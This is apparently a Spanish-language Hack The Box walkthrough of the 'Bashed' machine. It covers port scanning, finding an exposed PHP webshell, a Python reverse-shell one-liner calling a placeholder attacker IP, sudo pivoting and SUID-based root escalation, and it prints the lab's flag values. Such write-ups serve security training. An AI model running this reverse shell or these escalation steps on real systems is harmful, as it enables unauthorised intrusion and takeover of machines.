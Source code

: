 ```yaml
---
layout: post
title: Bashed
subtitle: Plataforma HTB Dificultad Fácil
cover-img: /assets/img/irkedpque.png
thumbnail-img: /assets/img/irkedpque.png
share-img: /assets/img/Irked.png
author: Elmili72
---
```

![image](https://github.com/user-attachments/assets/3ba96632-5c35-4e79-bd54-6c4e495fbabb)

## 1. Escaneo general de puertos

Primero hacemos un ping para ver si tenemos conexión con la máquina y que sistema operativo utiliza:
```bash
$ ping -c 1 10.10.10.68                               
PING 10.10.10.68 (10.10.10.68) 56(84) bytes of data.
64 bytes from 10.10.10.68: icmp_seq=1 ttl=63 time=125 ms

--- 10.10.10.68 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 124.645/124.645/124.645/0.000 ms
```

Después de comprobar que tenemos conexión con el equipo realizamos el escaneo general.

```bash
$ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 10.10.10.68 -oG allports 
[sudo] contraseña para elmili: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-14 02:04 CEST
Initiating SYN Stealth Scan at 02:04
Scanning 10.10.10.68 [65535 ports]
Discovered open port 80/tcp on 10.10.10.68
Completed SYN Stealth Scan at 02:04, 18.16s elapsed (65535 total ports)
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.12s latency).
Scanned at 2025-04-14 02:04:21 CEST for 18s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
```

## 2. Escaneo específico de los puertos encontrados

Tras descubrir los puertos abiertos hacemos un escaneo específico al puerto 80 (HTTP), para conocer las versiones y los servicios que corren en el puerto.

```bash
$ nmap -sCV -p80 10.10.10.68 -oN escaneo                              
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-14 02:05 CEST
Nmap scan report for 10.10.10.68
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.11 seconds
```

## 3. Reconocimiento del sitio web (HTTP)

Vemos un blog que habla del desarrollo de una webshell hecha con php para pentesting. Y de hecho encontramos un link a github de como está montada.

![[Pasted image 20250414020652.png|500]]
![[Pasted image 20250414020716.png | 500]]

## 4. Escaneo de subdirectorios

Realizamos un escaneo de subdirectorios por si pudiera haber algo interesante subido (como por ejemplo el proyecto de github :D).

```bash
$ gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/about.html           (Status: 200) [Size: 8193]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/contact.html         (Status: 200) [Size: 7805]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/config.php           (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/single.html          (Status: 200) [Size: 7477]
/scroll.html          (Status: 200) [Size: 10863]
```

Y efectivamente vemos algún subdirectorio interesante como "/dev" en el que encontramos efectivamente la webshell de nuestro amigo Arrexel.

![[Pasted image 20250414021112.png | 500]]

![[Pasted image 20250414021149.png]]

## 5. Intrusión

Una vez tenemos la webshell funcional podemos lanzarnos una shell a nosotros mismos para ganar acceso al equipo y poder pivotar entre los usuarios que haya.

```bash
# En una terminal
nc -lnvp <puerto_atacante>
```

```bash
# En la webshell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_atacante>",<puerto_atacante>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

Vemos dos directorios, en el directorio "arrexel" tenemos permisos de lectura y en el tenemos el archivito de la flag "users.txt". Primera parte hecha.

```bash
www-data@bashed:/home$ ls
arrexel  scriptmanager
```

```bash
www-data@bashed:/home$ cd arrexel/
www-data@bashed:/home/arrexel$ ls
user.txt
www-data@bashed:/home/arrexel$ cat user.txt
{a14ff9b051a66fc4e430bb948a95f494}
```

## 6. Pivoting

Ahora para realizar el pivoting realizamos un típico sudo -l y vemos que podemos "generar" una bash del usuario scriptmanager simplemente desde el usuario "www-data" .

```bash
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

![[Pasted image 20250414021942.png]]


## 7. Escalada de privilegios

Una vez somos el usuario "scriptmanager" buscamos posibles archivos con permisos SUID que nos permitan hacer la escalada. Pero nada.

```bash
scriptmanager@bashed:/home/arrexel$ find / -perm -4000 2>/dev/null
/bin/mount
/bin/fusermount
/bin/su
/bin/umount
/bin/ping6
/bin/ntfs-3g
/bin/ping
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

Buscando un poco he visto que hay un programa de python ejecutandose desde el usuario root, pero en el que tenemos permisos de escritura con el usuario "scriptmanager", el archivo "test.py".

![[Pasted image 20250414022155.png]]

![[Pasted image 20250414022211.png]]
![[Pasted image 20250414022226.png]]

Pues cogemos este archivo y lo modificamos de la siguiente manera para otorgarle permisos SUID a "/bin/bash" y poder generar una bash con privilegios sin problema.

![[Pasted image 20250414022337.png]]

![[Pasted image 20250414022409.png]]

Y ya tendríamos nuestra flag.

```bash
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt
{5c47a895a691a110783393957339f985}
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
